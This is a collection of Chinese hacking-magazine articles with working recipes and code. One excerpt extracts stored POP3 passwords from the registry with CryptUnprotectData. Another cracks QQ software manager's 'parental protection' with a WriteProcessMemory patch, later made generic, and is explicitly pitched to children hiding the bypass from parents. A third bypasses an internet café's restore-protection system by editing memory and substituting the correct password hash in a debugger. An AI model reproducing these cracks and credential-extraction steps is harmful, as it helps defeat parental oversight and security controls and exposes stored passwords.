程序在 00401E51 处调用函数读取了注册表，键值存放在堆栈地址 0012E7C0 处，在地址 00401E61 处取第 1 个字节进行比较，如果不是 1 则跳转到下面地址 00401F4F。然后 call 到 00403DA4 处，在函数中调用 CryptUnprotectData 进行解密，解密的时候调用的堆栈如图6所示。之后输出到 DATA_BLOB 中 0012E7B8 中，如图7所示，画框处是 DATA_BLOB 的数据地址，我们看到排除了取得数据的第 1 个字节，也就是说第 1 个字节是判断解密方式用的，如果为 1，则调用 pstorec.dll 中的函数进行解密。另一种情况，有兴趣的读者可以自行跟踪。


原理清楚了，自己编写密码恢复工具就容易多了。下面我仅大致列出解密函数的代码，至于读取注册表键值、判断账户类型的代码，大家就自行补全吧。

```c
HKEY hKey = NULL;
LONG lret = RegOpenKeyEx(HKEY_CURRENT_USER, TARGETKEY, 0, KEY_READ, &hKey);
if (lret != ERROR_SUCCESS)
{
    _tprintf(_T("RegOpenKey Error\n"));
    return -1;
}

BYTE aValueData[1024];
DWORD cbData = sizeof(aValueData);
RegQueryValueEx(hKey, _T("POP3 Password"), 0, 0, aValueData, &cbData);

DATA_BLOB DataIn, DataOut;
DataIn.cbData = cbData - 1;
DataIn.pbData = &aValueData[1];
CryptUnprotectData(&DataIn, 0, 0, 0, 0, 0, &DataOut);
HANDLE hStdou = GetStdHandle(STD_OUTPUT_HANDLE);
WriteFile(hStdou, DataOut.pbData, DataOut.cbData, 0, NULL);
return 0;
```

这里我依然是将解密后的密码字符串输出到标准输出句柄中。需要说明的是 CryptUnprotectData 函数决定了必须是用当前用户的权限打开才能正确解密，因此，单纯地获取注册表中的数据而更换了解密环境，并不能保证可以正确解密。

- 前置知识：VC
- 关键词：破解、内存补丁、QQ

### 从单一到通用，内存补丁的并发变迁

文／图 蓝天白云


本文主要是以通过开发最简单的内存补丁为例，从分析到写出特定的内存补丁，再到提炼接口，实现通用的内存补丁的过程。由于以往黑防的文章大部分都比较注重技巧、技术，所以在这篇文章里，我更偏重介绍分析问题的方法，还有对编程思想的一些介绍。

最近 QQ 软件管理推出了新版本 QQ 软件管理 1.0 Beta3(278)2009年8月18日(1.63M)，其中新增了一个叫做“家长保护”的功能。简单分析了一下该功能，是基于 LSP 对网络进行监控的。而引起小孩子兴趣的不是这个功能的原理，而是这个功能为家长提供了密码保护。要知道，本来学黑客就要不断地上网找资料，如果被家长开启了这个“家长保护”功能，这就给我们上网学习黑客技术带来了诸多不便。看来是要想个办法把它破解掉。

先看看我们的任务：破解“家长保护”应该是神不知鬼不觉，不能给家长察觉到该功能被破解，引起对小孩的怀疑。最好的办法就是知道密码。但是经过分析，发现该软件不保存明文，而是对明文做了 hash，即只保存了密文，要用的时候再进行密文的比较。经过上面的分析，我们想办法把密文逆出来不就可以了吗？结果远没有那么简单。因为该功能用到的 hash 是不可逆的。难道我们没办法破解了吗？肯定不是的。

我们再仔细分析，可以发现其最脆弱的地方应该是密文比较的地方！只要我们把比较的结果改为固定的，即使比较结果永远是相同的，那么我们无论输入什么密码，就都能进入“家长保护”了。这就是我们常说的“爆破”。我们用最简单的方法去实现我们的任务。先查壳，发现是 UPX，用工具尝试脱一下，发现脱后无法运行。可能是变异的 UPX 壳吧，节约时间，干脆就带壳分析了。

OD 载入 QQSoftMgr.exe，提示有壳，选“否”，然后 F9 直接跑起来（如果无法调试就 HideOD 一下）。进入“家长保护”的 tab，发现提示输入密码（第 1 次运行则是设置密码）。随便输入一个，出错，弹框，如图1所示。看样子应该是个 MessageBox 了，直接下断。


```asm
bp MessageBoxA
bp MessageBoxW
```

再次点击“确定”，OD 断了下来。看堆栈，发现是断在 MessageBoxW 处，如图2所示，那么这个软件应该是 Unicode 版本了。我们顺着栈往下看，找到最近一个返回程……


在序列框的地址“0013F488 0043F6DD 返回到 QQSoftMg.0043F6DD 来自 QQSoftMg.0040E970”，如图3所示。在该地址按一下回车，便到了调用 MessageBox 之后的地方。


图3

```asm
0043F6CE 51                push ecx
0043F6CF 52                push edx
0043F6D0 50                push eax
0043F6D1 899C24 38020000   mov dword ptr [esp+238], ebx
0043F6D8 E8 93F2FCFF       call 0040E970
0043F6DD 83C4 0C           add esp, 0C
0043F6E0 85C0              test eax, eax
0043F6E2 74 0A             je short 0043F6EE
```

原来是 `call 0040E970` 调用了 MessageBox，我们点该句按一下回车，进入该函数看看。这个函数不算大，简单说说这个函数的功能。

先把保存的密文读出来，经过诸如是否为空等基础判断之后，把输入的明文算出 hash 进行比较，如果不相同就弹密码错误框，返回 FALSE（eax 为 0）；如果相同就返回 TRUE（eax 为 1）。

分析到这里已经十分明朗了。把这个函数开头的地方强行直接将 eax 改为 1，然后返回，即可绕过 hash 密文的对比了。

分析完后，由于我们不能直接爆破（带壳，而且不能被家长发现），那就干脆写一个内存补丁吧，这样可以真正做到“破解得无声无息”。内存补丁的方法也很简单，先获得进程的句柄，然后对需要修改的地方写入修改的代码即可。

我先用 C++ 来实现一个类，看起来有点小题大做，其实是方便我们以后改写为一个通用的内存补丁类。

```cpp
// .h
class CQQMgrPatch
{
public:
    BOOL RunQQMgr();
    BOOL Patch();
private:
    PROCESS_INFORMATION m_tagProcInfo;
    STARTUPINFO m_tagStartInfo;
};
```

```cpp
// .cpp
#include "stdafx.h"
#include "QQMgrPatch.h"

BOOL CQQMgrPatch::RunQQMgr()
{
    BOOL bRet = FALSE;
    ZeroMemory(&m_tagProcInfo, sizeof(PROCESS_INFORMATION));
    ZeroMemory(&m_tagStartInfo, sizeof(STARTUPINFO));
    m_tagStartInfo.cb = sizeof(STARTUPINFO);
    m_tagStartInfo.wShowWindow = SW_SHOW;
    m_tagStartInfo.dwFlags = STARTF_USESHOWWINDOW;
    bRet = CreateProcess(
        _T("C:\\Program Files\\Tencent\\QQSoftMgr\\QQSoftMgr.exe"),
        NULL,
        NULL,
        NULL,
        FALSE,
        0,
        NULL,
        NULL,
        &m_tagStartInfo,
        &m_tagProcInfo
    );
    return bRet;
}

BOOL CQQMgrPatch::Patch()
{
    BOOL bRet = FALSE;
    DWORD dwRet = 0;
    DWORD dwOffset = 0x0040E970;    // 需要修改的函数入口地址
    BYTE byPatch[] =
    {
        0xB8, 0x01, 0x00, 0x00, 0x00, // mov eax, 1
        0xC3,                         // retn
        0x90                          // nop
    };
    bRet = WriteProcessMemory(
        m_tagProcInfo.hProcess, (LPVOID)dwOffset, byPatch,
        sizeof(byPatch), &dwRet);

Exit0:
    if (NULL != m_tagProcInfo.hThread)
    {
        CloseHandle(m_tagProcInfo.hThread);
        m_tagProcInfo.hThread = NULL;
    }

    if (NULL != m_tagProcInfo.hProcess)
    {
        CloseHandle(m_tagProcInfo.hProcess);
        m_tagProcInfo.hProcess = NULL;
    }
    return bRet;
}
```

对于这个类，我分段来解释。

- 1. 获得进程的句柄。如果程序没运行起来，我们可以用 `CreateProcess` 获得进程句柄；当程序已经运行，我们可以用 `OpenProcess` 获得进程句柄。上面的例子用了 `CreateProcess`，改为 `OpenProcess` 也很简单。
- 2. 获得句柄后就可以用 `WriteProcessMemory` 来写入我们想修改的代码。当然，可以用 `ReadProcessMemory` 来读取写入前后的数据，进行比较以确认是否真正 patch 成功。
- 3. 这个类调用的方法如下：调用 `RunQQMgr()` 把软件管理器跑起来，然后等它的壳解压完、程序能正常使用的时候，再提供一个按钮，去调用 `Patch()` 把内存上的代码改过来。这样，QQ 软件管理器的“家长保护”功能就被破解了。

我们并不满足于完成了一个软件的内存补丁，因为以后可能需要面对各种软件的破解，所以，做一个通用的内存补丁就十分有必要了。

我们再看回针对“家长保护”的内存补丁。它需要知道软件管理器的进程句柄，需要知道内存偏移，最后还要知道需要修改的内容。

进程句柄可以通过进程 ID 调用 `OpenProcess` 获得，而进程 ID 则可通过枚举进程、按进程名匹配来获取。

这样的话，我们提炼出通用内存补丁所需要的东西：进程名、内存偏移、修改内存。那么我们只要对外提供一个接口，把上面所需的东西作为参数传进来。对外面的调用者来说，则无需知道内部任何的实现细节。

```cpp
// .h
class CPatch
{
public:
    CPatch();
    virtual ~CPatch();
    BOOL Patch(
        IN LPCTSTR pszExeName,
        IN DWORD dwOffset,
        IN LPBYTE lpPatch,
        IN DWORD dwByteSize
    );

protected:
    DWORD GetPid(LPCTSTR pszExeName);
    HANDLE GetHandle(DWORD dwPid);
};
```

```cpp
// .cpp
#include "stdafx.h"
#include "QQMgrPatch.h"
#include <Tlhelp32.h>

CPatch::CPatch()
{
}

CPatch::~CPatch()
{
}

DWORD CPatch::GetPid(LPCTSTR pszExeName)
{
    ASSERT(pszExeName);
    BOOL bRet = FALSE;
    BOOL fOk = FALSE;
    BOOL bDebugPrivilege = FALSE;
    HANDLE hProcess = NULL;
    HANDLE hSnapShot = INVALID_HANDLE_VALUE;
    DWORD dwPid = -1;
    PROCESSENTRY32 pe = {0};
    pe.dwSize = sizeof(pe);

    hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hSnapShot)
    {
        goto Exit0;
    }

    fOk = Process32First(hSnapShot, &pe);
    while (fOk)
    {
        if (_tcsstr(pszExeName, pe.szExeFile))
        {
            dwPid = pe.th32ProcessID;
            goto Exit0;
        }
        fOk = Process32Next(hSnapShot, &pe);
    }

Exit0:
    if (INVALID_HANDLE_VALUE != hSnapShot)
    {
        CloseHandle(hSnapShot);
        hSnapShot = NULL;
    }
    return dwPid;
}

HANDLE CPatch::GetHandle(DWORD dwPid)
{
    return OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid);
}

BOOL CPatch::Patch(
    IN LPCTSTR pszExeName,
    IN DWORD dwOffset,
    IN LPBYTE lpPatch,
    IN DWORD dwByteSize
)
{
    BOOL bRet = FALSE;
    DWORD dwRet = 0;
    DWORD dwPid = 0;
    HANDLE hProcess = NULL;

    dwPid = GetPid(pszExeName);
    if (-1 == dwPid)
    {
        goto Exit0;
    }

    hProcess = GetHandle(dwPid);
    if (NULL == hProcess)
    {
        goto Exit0;
    }

    bRet = WriteProcessMemory(
        hProcess, (LPVOID)dwOffset, lpPatch, dwByteSize, &dwRet);

Exit0:
    if (NULL != hProcess)
    {
        CloseHandle(hProcess);
        hProcess = NULL;
    }

    return bRet;
}
```

这个类结构非常简单，对外提供了 `Patch()` 的接口，而内部则实现了两个方法，分别是获得进程 ID 的 `GetPid()` 和获得进程句柄的 `GetHandle()`。实现了这个类之后，剩下的就是上层界面逻辑的代码了。

我们可以提供几个输入框，对应输入进程名、内存偏移、修改的代码和代码的大小。通过 `GetDlgItemText` 等 API 去获取这些信息，然后简单地做点字符串转换，调用通用的内存补丁类，即可实现通用的内存补丁程序。

（编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

### 前置知识：汇编

关键词：破解、网维大师、还原保护

### 利用动态调试器绕过网维大师还原保护


文／图 BieDaLian

前些天，因为自己的 ADSL 下载速度比较慢，所以去网吧下载，毕竟网吧是专线。谁知天不遂人愿，旁边的一位朋友不小心踢掉了我电脑上的电源，下载的东西在重启后消失了。那可是 1G 大的东西，心情都闷得要死。所以，决定看看到底是谁还原了我的东西。

由于 IceSword、RootkitUnhook 都无法运行，提示无法加载驱动，一看角落里居然有个驱动防火墙，网上查了一下，比较难搞，就暂时放弃了通过工具分析的打算。无奈之下，只好自己翻看文件夹来找一些线索。

经过仔细查看，发现系统中就一个网维大师网吧管理系统比较可疑，GOOGLE 搜索之后，发现最终祸首就是网维大师。经过自己的一系列发现和调试，终于搞定了这个网吧管理系统。

网维大师的客户端中可以通过设置，输入正确的密码，进入设置还原状态对话框，从而设置还原状态。但是在 6.2 版本中，可以直接通过动态调试器调试来绕过密码验证进行还原状态设置。

网维大师客户端主程序为 `BarClientView.exe`，Stud_PE 分析该文件未加壳，由 VC++ 7.0 编译。直接 IDA 加载，可发现内部界面程序是利用 MFC 写成的。利用 MFC 写成的程序，大部分都包含了 RTTI 信息，而 RTTI 信息记录了一个程序中所有的类的类名，以及类的一些其他信息。你可以 Ctrl+S 查看 `.rdata` 节，会发现里面一堆 VTABLE 指针。我们为了利于后面的分析，先把 RTTI 信息处理了。毕竟看名称比看一堆十六进制数要轻松得多。在网上有个 IDC 脚本，可以直接解析 RTTI 信息，而我们的目标程序恰好就有这些 RTTI 信息，我们直接用那个 IDC 脚本先处理 RTTI 信息。

我们的目的就是绕过密码验证进行还原状态设置，那么怎么确定哪些代码是验证密码的呢？

我们知道，界面程序都是事件驱动，我们只要找到相关事件处理代码，就可以找到相关的密码验证函数。而当前目标程序是由 MFC 程序写的，它与一般 Win32 下界面程序处理事件的方法还不一样，它的事件处理流程有点特殊。我们只要知道最后所有的事件都要经过 `CCmdTarget::OnCmdMsg` 函数，最终在 `CCmdTarget::OnCmdMsg` 中调用  
`int __stdcall _AfxDispatchCmdMsg(class CCmdTarget *, unsigned int, int, void (__thiscall CCmdTarget::*)(void), void *, unsigned int, struct AFX_CMDHANDLERINFO *)`  
函数，再由 `_AfxDispatchCmdMsg` 分发事件例程，调用用户定义的事件处理例程。这个函数算是进入程序某一事件处理例程的入口，所以我们可以在这个函数口下断。

为了操作方便，我们可以先打开网维大师设置窗口，然后在 `_AfxDispatchCmdMsg` 下断点，F7 跟入，一直跟进另外一个 CALL，反汇编代码如下：

```asm
004D3899    56                  push    esi
004D389A    0F87 AE000000       ja      <loc_4D394E>
004D38A0    FF2485 56394D00     jmp     dword ptr [eax*4+<off_4D3956>]
004D38A7    8B4D 08             mov     ecx, dword ptr [ebp+8]
004D38AA    FF55 14             call    dword ptr [ebp+14]
                                ; <BarClien.sub_40E020>
```

上面代码中的 CALL 指令后跟的地址就是处理密码验证事件的例程，F7 跟进。

```asm
.text:0040E020 sub_40E020 proc near
.text:0040E020 var_1C = dword ptr -1Ch
.text:0040E020 var_18 = dword ptr -18h
.text:0040E020 var_14 = dword ptr -14h
.text:0040E020 var_10 = dword ptr -10h
.text:0040E020 var_C  = dword ptr -0Ch
.text:0040E020 var_4  = dword ptr -4
...
.text:0040E041 lea     ecx, [esp+28h+var_18]
.text:0040E045 call    sub_401DC0
.text:0040E05B call    sub_401DC0
.text:0040E06E call    sub_401DC0
.text:0040E080 call    CWnd::GetDlgItem(int)
.text:0040E090 call    CWnd::GetWindowTextA(...)
...
.text:0040E0AA mov     ecx, eax
.text:0040E0AC call    CWnd::GetWindowTextA(...)
.text:0040E0B1 loc_40E0B1: ; CODE XREF sub_40E020+83250j
.text:0040E0B1 push    edi
.text:0040E0B2 lea     eax, [esp+28h+var_14]
.text:0040E0B6 push    eax
...
.text:0040E1E8 loc_40E1E8: ; CODE XREF sub_40E020+1BE250j
.text:0040E1E8 mov     ecx, [esp+24h+var_C]
.text:0040E1EC pop     esi
.text:0040E1ED pop     ebx
.text:0040E1EE mov     large fs:0, ecx
.text:0040E1F5 add     esp, 1Ch
.text:0040E1F8 retn
.text:0040E1F8 sub_40E020 endp
```

```text
0012E258  004EC760  BarClien.004EC760
0012E25C  00000111
0012E260  0111A848  ASCII "XSY-009"
0012E264  011A6018  ASCII "aaaaaaXSY-009"
0012E268  0111AAC8  ASCII "aaaaaa"
0012E26C  011A6050  ASCII "6D33E6DEBD026850E187F805789FCC1B"
0012E270  0012E3B0  指向下一个 SEH 记录的指针
0012E274  004DF970  SE 处理程序
```

一般的密码验证代码都得要有比较字符的部分，一般常用的字符比较函数就是 `strcmp`、`strcmpi` 以及 `mbscmp`。而 MFC 内部中常用的就是 `mbscmp` 这个函数。当然还有一些程序员自己写的字符比较函数，但是比较走运，这个程序的程序员们没有实现自己的这类函数。

经过分析，字符比较的部分在 `sub_40D9A0` 中。我们直接 F2 在 `40D9A0` 处下断点，然后 F9 运行，会在我们刚才的断点停下，然后 F8 单步跟踪调试，可以看到该函数内部调用了 `mbscmp` 函数。F8 跟过，然后修改 `mbscmp` 的返回结果为 0，并记录下正确的 HASH 值，这个很重要，后面用得到。

下面是调用 `mbscmp()` 时栈的状态。

```text
0012E234  01700BD8  ASCII "679B6A7379480DB8BB4DC14B45402A24"
// 正确的 HASH
0012E238  011A6050  ASCII "6D33E6DEBD026850E187F805789FCC1B"
// 自己的 HASH
0012E23C  00518BC4  BarClien.00518BC4
0012E240  0012E270  指向下一个 SEH 记录的指针
0012E244  004DF8D8  SE 处理程序
0012E248  00000000
0012E24C  0040E145  返回到 BarClien.0040E145
                  来自 BarClien.0040D9A0
0012E250  011A6050  ASCII "6D33E6DEBD026850E187F805789FCC1B"
0012E254  00000001
```

之后直接 F9 就运行到设置还原状态的窗口了。经过跟踪调试发现，直接设置还原状态是行不通的。自己又仔细跟踪了下，发现该程序内部还会核对一次 HASH：它会在原先密码验证时保存一个“验证时输入的密码”的 HASH 备份（当然，因为我们是调试更改了运行状态，所以这个 HASH 备份是错误的、无效的）。通过 `DeviceIoControl()` 函数发送到内核中的某保护驱动，经该驱动检验后，才能生效还原状态。

因为网维大师有自己的驱动防火墙，所以我们没有办法利用内核调试器跟踪了，因为连驱动都不让你加载，就没办法继续了。更不用说自己写驱动进入 RING0 来更改它的文件过滤驱动了。既然是要发送已保存的 HASH 到驱动，那么我们可以更改这个已保存的 HASH 值，这就是为什么我在前面说要记录下正确密码的 HASH 的原因。

设置还原状态的对话框所属的类为 `CsuperCfgDlg`。根据获得验证密码按钮的事件处理例程的方法，我们得到设置取消还原状态的例程为 `Sub_44DF20`。我们在这个函数头下断，然后 F9 运行，点击取消还原状态，进入 `sub_44df20` 函数，关键的处理代码如下：

```asm
.text:0044DF52  push eax            ; Source
; 这个是密码的 HASH，而且还是我们的 HASH，但是
; 如果不修改的话是不能设置还原状态的
.text:0044DF53  push offset aLocal  ; "Local"
.text:0044DF58  push 0              ; int
.text:0044DF5A  call sub_4456D0
```

上面的 `sub_4456D0` 就是把 eax 指向的 HASH 发送给驱动，所以我们跟踪到 `push eax` 后，会发现其中的内容就是我们在前面随便输入的密码的 HASH。在内存查看窗口中输入 `db eax`，然后二进制修改成我们记录的正确密码的 HASH，F9 直接运行，然后重启就可以了。这样，网维的还原系统就被绕过了。